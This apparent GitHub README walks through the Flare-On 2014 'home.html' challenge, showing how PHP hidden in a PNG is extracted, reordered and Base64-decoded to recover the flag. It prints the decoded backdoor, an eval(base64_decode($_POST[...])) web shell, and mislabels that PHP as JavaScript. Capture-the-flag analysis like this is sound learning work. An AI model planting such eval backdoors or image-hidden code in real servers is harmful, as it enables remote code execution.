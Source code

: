 # Flare-On Challenge Walkthrough 2014: **`home.html`** Analysis

In this walkthrough, we’ll break down the process of analyzing the `home.html` file from the Flare-On challenge. This guide will help you extract and decode a hidden PHP-encoded script embedded in a PNG image. By leveraging Python scripts and a hex editor, we will decode the hidden content and reveal the payload.

## Table of Contents
- [Introduction](#introduction)
- [Step 1: Inspect `home.html` with Browser Developer Tools](#step-1-inspect-homehtml-with-browser-developer-tools)
- [Step 2: Examine `flare-on.png` for Embedded PHP Code](#step-2-examine-flare-onpng-for-embedded-php-code)
- [Step 3: Decode the PHP Code and Extract JavaScript](#step-3-decode-the-php-code-and-extract-javascript)
- [Step 4: The Flag](#step-4-the-flag)
- [References](#references)
---

## Introduction

In this challenge, the goal is to decode hidden content embedded in a PNG file via PHP code. The content is encoded in Base64 and contains escape sequences that must be resolved to reveal the final JavaScript code.

We'll walk through the steps of inspecting `home.html`, extracting PHP code from the `flare-on.png`, decoding Base64 strings, and decoding escape sequences to uncover the JavaScript payload.

---

## Step 1: Inspect `home.html` with Browser Developer Tools

![1 - Home Page](images/1-home-page.png)

1. **Open `home.html` in a browser**:
   - With developer tools enabled, open the `home.html` file.
   - Upon inspection, you'll notice that the HTML contains an image tag for `img/flare-on.png` and an embedded PHP script.
   - Specifically, you’ll see an unconventional PHP `include` statement inside a `<script>` tag, like this:

     ![2 - Inspected HTML](images/2-inspected-html.png)

2. **What this indicates**:
   - This suggests that PHP code might be embedded in the `flare-on.png` image file. We’ll need to analyze the image to extract the PHP code and proceed with further decoding.
   - The next step involves inspecting `flare-on.png` in a hex editor to extract the embedded PHP code.

---

## Step 2: Examine `flare-on.png` for Embedded PHP Code

1. **Open `flare-on.png` in a hex editor**:
   - We open `flare-on.png` using a hex editor. The goal here is to search for embedded PHP code.
   - Search for the string `<?php` to locate where the PHP code begins in the image.

2. **Extract the PHP code**:
   - The PHP code starts at offset `0x19c4` in the file.
     ![3 - PHP in Png](images/3-php-in-png.png)
   - Copy the PHP code from this offset and save it to a new file called `extracted_php.php`.

3. **PHP Code Breakdown**:
    - Contains an array `$terms` with 80 characters and another array `$order` that defines the order in which these characters will be rearranged to form a string.
    - Uses the `$order` array to shuffle characters from the `$terms` array to create a string. The result is stored in the `$do_me` variable, which will be executed later as part of the hidden payload.
      ![5 - Extracted PHP](images/5-extracted-php.png)
---

## Step 3: Decode the PHP Code and Extract JavaScript

1. **Python Conversion**:
   - After extracting the PHP code, we convert it into Python. The goal is to simulate the PHP array shuffling process and extract the resulting string (the `$do_me` variable).
   
   Here is a simplified breakdown of the Python script `converted_php.py`:
   
   ```python
   terms = ["..."]  # 80 characters from PHP code
   order = [...]  # Indices for the character order

   do_me = ''.join([terms[i] for i in order])
   print(do_me)
   ```

   The Python script prints the resulting value of `$do_me`, which contains a Base64-encoded JavaScript code.
      ![4 - Printed Do_me](images/4-printed-do-me.png)
   
3. **Base64 Decoding**:
   - We then use the Python script `convert_js.py` to decode the Base64-encoded JavaScript.
   - The process involves:
     - Decoding two Base64-encoded strings: one for `$_` and another for `$__`.
     - Combining both strings to form a partially obfuscated JavaScript code.

   The Python script also decodes hexadecimal (`\x4F`) and decimal (`\97`) escape sequences in the decoded code. This results in the following final JavaScript code:

   ```javascript
   if (isset($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])) { 
       eval(base64_decode($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])); 
   }
   eval(base64_decode($_));
   eval($code);
   ```

   This JavaScript contains functionality to execute Base64-decoded content received through a POST request, which is a typical web-based payload.

---

## Step 4: The Flag

The de-obfuscated JavaScript reveals an important action: it checks for a specific POST request and decodes its Base64 content. This can be used to trigger further actions on the server or extract sensitive information.

  - **Flag:**
    ```
    Original: a11DOTthatDOTjava5crapATflareDASHonDOTcom
    Readable: a11.that.java5crap@flare-on.com
    ```

---

## References
- **Hex Editor**: Allows you to see the raw binary content of a file, making it possible to find hidden data or scripts embedded within files.

- **Browser Developer Tools**: Provide an easy way to explore the structure and content of a web page.

- **Base64 Decoder**: Often used to obfuscate data, and decoding it reveals the original payload.

Escape Sequence Decoder: The final step involved decoding hexadecimal and decimal escape sequences. These sequences represent characters encoded in a way that obfuscates the code further, and resolving them makes the code readable and executable.
